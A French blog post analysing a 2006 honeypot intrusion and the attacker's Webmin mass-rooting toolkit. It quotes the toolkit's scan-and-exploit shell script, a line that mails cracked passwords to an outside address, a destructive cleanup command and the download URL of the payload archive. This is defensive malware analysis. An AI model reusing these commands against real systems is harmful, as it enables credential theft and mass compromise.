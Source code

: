 ```yaml
---
title: "Intrusion du 24 novembre 2006"
tags: [honeypot]
---
```


## Exploit kit

Pour plus d'information sur [Kojoney](http://kojoney.sourceforge.net/), un honeypot ssh, reportez-vous à [un de mes précédents billets]({% link _posts/2011-01-06-Revue-du-honeypot-Kojoney.md%}).  

Une attaque brute force contre les comptes ssh a été lancée le 23 nomvembre aux alentours de 16 heures. La machine attaquante est localisée en Norvège. Le FAI est [telenor.no](http://www.telenor.no/).  

L'attaque est plutôt efficace et prend fin à 16h07 après avoir trouvé différents passwords par défaut (`ftp`, `mysql`, `guest`, `admin`).  

Le 24 à minuit et 43 minutes, le pirate se connecte en utilisant le compte `ftp`. Son adresse IP le situe en Roumanie (FAI [Romtelecom](http://www.romtelecom.ro/)). Aucune autre visite n'a eu lieu entre la fin du brute force et son arrivée.  

Plusieurs commandes sont lancées afin d'obtenir plus d'informations sur la machine :  

```bash
uname -a
hostname
cat /proc/cpuinfo
```

Le visiteur vérifie aussi brievement la présence des commandes `tar` et `wget`.  

Il va alors tenter à plusieurs reprises de télécharger une archive gzip ([conf.tar.gz](http://dary.ro/conf.tar.gz)) mais qui échoue comme le honeypot est à *"faible interraction"* (aucune commande n'est réellement exécutée, tout est simulé)  

Les fichiers présents dans cette archive sont (avec le résultat de la commande file) :  

- **all.chr**: data  

- **alnum.chr**: data  

- **alpha.chr**: data  

- auto: Bourne-Again shell script text executable  

- clean: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- **digits.chr**: data  

- do: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), not stripped  

- ex.pl: perl script text executable  

- **john**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, dynamically linked (uses shared libs), stripped  

- **john.conf**: ASCII English text  

- **lanman.chr**: data  

- **mailer**: Bourne shell script text executable  

- o: Bourne-Again shell script text executable  

- **password.lst**: ASCII English text  

- pscan2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), not stripped  

- scan: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- ss: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- try: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- **unafs**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped  

- **unique**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped  

- **unshadow**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped

## Password collector

Les noms de fichiers que j'ai mis en gras devraient être familier à tout ceux qui ont déjà utilisé [John the Ripper](http://www.openwall.com/john/) (un casseur de mot de passe local). La personne qui a généré l'archive n'a visiblement pas fait le tri (`unafs`, `mailer`, `lanman.chr` et `unique` n'auront probablement pas d'utilité pour l'attaquant)  

Le script `o` lance john sur plusieurs fichiers (non présents) avec l'option `-show` pour afficher les password cassés. Le fichier a sans doute été mis par erreur ou laissé par oubli.  
Le script `auto` demande un début d'adresse IP (par exemple `192.168.0`) et un nom de fichier. Il génère alors une liste d'ips à l'aide d'une boucle (0 -> 255)  

Le script perl [ex.pl](http://www.milw0rm.com/exploits/2017) est un exploit pour *Webmin* qui date de juillet 2006.  

Les binaires sont assez énigmatiques. `clean` semble plus ou moins crypté pour cacher son rôle (un `strings` ne renvoit rien d'intéressant).  

En réalité il lance juste la commande suivante : `rm -rf pass pass2 pass3 john.pot restore john.log ips bios.txt *.pscan.10* wget-log* spart* core*`  

On peut se demander l'utilité de passer par un fichier ELF alors qu'un script shell aurait été plus rapide et surtout plus portable...  

`pscan2` est un scanneur de port horizontal (même port, ips différentes) assez simple qui enregistre les résultats dans un fichier. J'ai pu retrouver [le fichier source sur Internet](http://members.xoom.virgilio.it/zikkolo/federico/pscan.c).

## Washington est dans la place ! Tout baigne !

`ss` est pour le moins surprenant. Là encore le programme dissimule son contenu. En fait il s'agit d'un scanneur de port horizontal tout comme `pscan2` mais bien plus évolué. Il est linké statiquement avec la librairie `pcap` et envoit des paquets SYN au lieu d'établir des connexions complètes. Le traffic est sniffé afin de détecter quelles machines répondent (et donc savoir celles qui ont un port ouvert).  

Ce programme serait tout à fait lambda dans la trousse d'un pirate informatique si les machines qu'il scanne par défaut n'étaient pas aussi *spéciales*.  

Il semble avoir un intérêt tout particulier pour les sites gouvernementaux et militaires ainsi que les centres de recherches. Ainsi il envoit des paquets sur un bon nombre de *.mil*, de *.gov* (et *.gov.cctld*), des *.edu* (comme le célèbre MIT) etc etc.  

Au moins on ne peut pas lui reprocher de faire de la discrimination : Washington, Tel Aviv... et même du côté du soleil levant... tout y passe !  

Les résultats sont enregistrés dans un fichier `bios.txt`.

Tout comme `clean`, `scan` est juste un script shell passé en binaire pour rendre plus difficile à comprendre son fonctionnement.

## Scan, crack, leak, repeat

Après avoir défini un code couleur, il lance les commandes suivantes :  

```bash
if [ $# != 1 ]; then
        echo se da: $0 <b class>
        exit;
fi

echo ${YEL}#@@@@@@@@@@@@@@@${BLU}MASSROOTER${YEL}@@@@@@@@@@@@@@@@@@#
echo ${YEL}############${BLU}By b-u-f-u ,lego & dary ${YEL}#########
echo ${YEL}###############${RED}PRIVATE SHIT${YEL}##################
echo ${RES}

./pscan2 $1 20000
sleep 10
cat $1.pscan.20000 |sort |uniq > ips
./do ips
rm -rf ips
echo ${DGRN}#BAFTA!....
echo ${RES}
```

Ce script utilise `pscan2` pour trouver des machines ayant un port Webmin ouvert (20000) puis pour chaque machine correspondant à ces critères il appelle le programme `do`.

Là vous vous demandez *mais à quoi sert le binaire do ?*  

Et bien c'est la partie qui automatise l'attaque. Pour chaque adresse IP trouvée dans le fichier passé en paramètre (ips dans ce cas), l'exploit pour Webmin est lancé et va tenter d'accèder au fichier `/etc/shadow` du serveur. Différentes tentatives sont faites afin de couvrir différents systèmes (par exemple `master.passwd` pour BSD)  

Les résultats obtenus sont placés dans les fichiers `pass`, `pass2`, `pass3`.  

Pour chacun de ces fichiers `John the Ripper` est lancé en tâche de fond afin de casser les mots de passe. Le résultat final ce sont les éventuels passwords trouvés mis dans un fichier `vuln` et envoyés sur une boîte mail :  

```bash
cat vuln | mail -s woot woot $1 conf.team@gmail.com
```

La commande `try` semble faire la même chose que `do`.

L'intrusion en elle-même n'était pas exceptionnelle, mais les binaires étaient pour le moins intéressants...  

L'étude a été faite dans un environnement chrooté avec des outils comme strace, ltrace et [SoapBox](http://dag.wieers.com/home-made/soapbox/)

*Published January 08 2011 at 13:54*
